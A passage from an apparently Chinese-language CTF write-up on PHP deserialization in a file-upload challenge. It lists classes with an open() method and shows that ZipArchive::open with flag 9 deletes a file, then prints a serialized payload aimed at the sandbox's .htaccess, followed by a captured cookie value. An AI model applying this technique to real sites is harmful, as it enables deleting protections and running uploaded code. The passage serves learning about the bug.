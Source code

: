 通过原WP，编写代码列出所有包含open()方法的类：

```
$ cat list.php
&lt;?php
  foreach (get_declared_classes() as $class) `{`
    foreach (get_class_methods($class) as $method) `{`
      if ($method == "open")
        echo "$class-&gt;$methodn";
    `}`
  `}`
?&gt;
```

列举结果：

```
$ php list.php
SQLite3-&gt;open
SessionHandler-&gt;open
XMLReader-&gt;open
ZipArchive-&gt;open
```

经过寻找，共发现有4个类带有open()方法。如果在$files数组中，注入这些类中任意一个的序列化对象，我们就可以通过带有特定参数的open动作，来调用这些类中的方法。

其中的大部分类都能够对文件进行操作。回到之前，我们知道`.htaccess`会在沙盒中阻止我们执行PHP。所以，假如能通过某种方式删掉`.htaccess`文件，那么就成功了。

通过对上面的4个类进行测试，发现，ZipArchive-&gt;open方法可以删除目标文件，前提是我们需要将其第二个参数设定为“9”。

`ZipArchive::open`的第一个参数是文件名，第二个参数是flags，而9对应的是`ZipArchive::CREATE | ZipArchive::OVERWRITE`。`ZipArchive::OVERWRITE`的意思是重写覆盖文件，这个操作会删除原来的文件。

因为UploadFile类的open函数的参数是fakename和realname，fakename对应.htaccess，realname对应flags，这里直接使用`ZipArchive::OVERWRITE`的integer值9，这样我们就可以使用ZipArchive-&gt;open()来删除`.htaccess`文件。

**分析编写payload**

先序列化一个ZipArchive类的对象：

```
&lt;?php
$zip = new ZipArchive();
$zip-&gt;fakename = "sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess";
$zip-&gt;realname = "9";
echo serialize($zip);

O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ded5a68df70145b3a0bbe9c4290a729d37071e54/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:0:"";`}`
```

然后随便上传两个文件，查看cookie得到序列化的值

```
a:2:`{`i:0;O:10:"UploadFile":2:`{`s:8:"fakename";s:9:"pictu.jpg";s:8:"realname";s:44:"3c4578834eed3f05bd8b099e7fc2c633af6c5fdc.jpg";`}`i:1;O:10:"UploadFile":2:`{`s:8:"fakename";s:7:"qwe.jpg";s:8:"realname";s:44:"75a9c6a2fcb5d7c6809ec7c1a5859a7f83637159.jpg";`}``}`f96f37cca80ecae3c5f2f30be497c27024a23a24093e9e7a26c9721be025fb7b
```
